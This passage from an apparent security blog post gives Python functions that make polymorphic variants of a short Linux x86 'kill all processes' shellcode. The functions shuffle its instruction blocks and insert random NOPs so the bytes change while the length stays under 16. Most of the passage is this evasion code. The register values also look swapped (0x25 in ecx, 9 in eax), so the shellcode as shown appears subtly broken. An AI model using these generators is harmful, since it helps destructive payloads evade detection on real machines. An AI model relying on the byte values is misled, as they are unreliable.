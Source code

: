 As you can see in the following picture, some polymorphic variant of the
original shellcode can be easily generated, without penalty on lenght:

![Kill Swap variations]({{site.url}}/assets/images/kill_swap_variations.png)

### NOP dope

Another transformation strategy can be adding NOPs. However, in order to have
some more magic, I'll mix the NOPs strategy with shuffling.

I'll add a number of NOPs that let our shellcode to stay under 16 bytes in
lenght.

{%highlight python%}
def kill_nop_dope():
    blk=["\\x31\\xdb\\x4b", "\\x31\\xc9\\xb1\\x25", "\\x31\\xc0\\xb0\\x09"];
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    nop = ["\\x90"]*n
    blk.extend(nop)

    newblk=blk[:];
    shuffle(newblk);

    return "".join(newblk)+"\\xcd\\x80";

{%endhighlight%}

![Kill NOP variations]({{site.url}}/assets/images/kill_nop_variations.png)

### Some quick improvements

With only three words that they can be swapped each other, there is no too much
space for entropy. Let's split the original shellcode into two main section:

* initialization
* system call setup

With this approach, the two strategies described before will result in:

{%highlight python%}
def kill_shuffle():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";

def kill_nop_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    nop_blk = ["\\x90"]*n
    setup_blk.extend(nop_blk)
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";
{%endhighlight%}
